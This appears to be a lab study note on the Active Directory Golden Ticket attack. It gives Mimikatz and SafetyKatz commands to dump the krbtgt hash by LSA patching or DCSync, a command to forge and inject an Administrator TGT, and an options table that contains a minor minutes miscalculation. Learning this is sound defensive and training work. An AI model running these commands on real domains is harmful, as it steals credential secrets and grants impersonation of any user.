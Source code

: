 # Golden Ticket

Golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.

Using Golden ticket can be used to impersonate any user with any privileges.



## Obtain krbtgt hash

There are multiple ways to get the krbtgt account hash

```powershell
# Execute on DC as Domain Admin
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

# DCSync to get AES keys
# Needs Domain admin or Replication Rights
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

## Create The Ticket

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<user_sid> /aes256:<aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

dir \\dcorp-dc\c$ # check if worked
```
{% endcode %}

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt or /ticket</td><td>ptt: inject ticket to current process<br>ticket: saves ticket to a file</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes. <br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes.  (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

